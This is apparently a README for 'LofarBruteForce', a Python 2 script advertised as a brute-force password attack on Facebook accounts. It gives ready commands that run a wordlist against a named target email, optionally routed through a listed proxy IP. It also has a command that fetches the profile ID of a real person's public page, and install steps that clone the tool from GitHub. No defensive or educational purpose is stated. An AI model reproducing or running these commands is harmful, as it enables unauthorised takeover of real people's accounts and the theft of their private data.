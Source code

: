      SCRIPT: LofarBruteForce

     JOB: Brute Force Attack On Facebook Accounts

     SCRIPT ScreeenShot:
        Usage:
        Brute Force On Facebook Account Without proxy:
        Command: python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt
        
        Brute Force On Facebook Account With Proxy:
        python2 LofarBruteForce.YS -t Lofaralzadjali@gmail.com -w wlist.txt -p 144.217.101.245:3129
        
        
        Get Target Facebook Profile ID:
        python2 LofarBruteForce.YS -g https://www.facebook.com/zuck 
        
     
     # For Install
       git clone https://github.com/MuhammadYousuf813/LofarBruteForce

       cd LofarBruteForce/

       pip install requests

       pip install mechanize

       pip2 install requests

       pip2 install mechanize
